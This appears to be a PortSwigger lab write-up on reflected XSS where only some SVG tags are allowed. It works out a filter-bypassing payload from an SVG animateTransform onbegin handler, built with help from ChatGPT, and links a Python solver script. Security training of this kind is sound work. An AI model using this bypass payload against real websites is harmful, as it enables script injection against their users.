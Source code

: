 ![Screenshot from 2023-09-05 10-47-25](https://github.com/MohammedHawary/Web-Penetration/assets/94152045/c37bccfe-c513-41e2-a3dc-b7f777141b8f)
![Screenshot from 2023-09-05 10-47-36](https://github.com/MohammedHawary/Web-Penetration/assets/94152045/033f699a-3689-4a30-960d-68b79efb326b)

![Screenshot from 2023-09-05 10-47-52](https://github.com/MohammedHawary/Web-Penetration/assets/94152045/3ef28a44-b20a-4818-b43d-afeb103332f6)

There are 4 tags allowed `svg, title, image, animatetransform` then let's write xss payload with this info

![Screenshot from 2023-09-05 10-48-55](https://github.com/MohammedHawary/Web-Penetration/assets/94152045/64192b41-6795-4db8-8413-d2652ae2a11b)

we can write payload with `svg` and use `animateTransform` tag Animation event attributes to perform our xss payload

![Screenshot from 2023-09-05 10-59-31](https://github.com/MohammedHawary/Web-Penetration/assets/94152045/e1e96943-4476-4b2f-9f0e-a398651e86a9)

![Screenshot from 2023-09-05 11-00-09](https://github.com/MohammedHawary/Web-Penetration/assets/94152045/580ecb94-c138-42a0-9d3b-35d229b1942f)

Let's make chatGPT help us to write example code

![Screenshot from 2023-09-05 11-03-26](https://github.com/MohammedHawary/Web-Penetration/assets/94152045/11f180b6-da61-4b14-a8bf-eb52fdce9125)

```html
<svg width="200" height="200" xmlns="http://www.w3.org/2000/svg">
  <rect width="100" height="100" fill="blue">
    <animateTransform
      attributeName="transform"
      attributeType="XML"
      type="translate"
      values="0,0;100,100;0,0"
      begin="0s"
      dur="3s"
      repeatCount="indefinite"
      onbegin="alert('Animation started!')"
    />
  </rect>
</svg>
```

let's remove additonal things

```html
<svg>
    <animateTransform onbegin="alert('xss')"/>
</svg>
```

Then let's check this payload

![Screenshot from 2023-09-05 11-05-45](https://github.com/MohammedHawary/Web-Penetration/assets/94152045/546d0f0a-621b-4be8-aa93-3999168727f9) 

> **[Python Script for this lab](https://github.com/MohammedHawary/Solve-Portswigger-Labs-With_py/blob/main/XSS/Reflected_XSS_with_some_SVG_markup_allowed.py)**

## XSS in HTML tag attributes
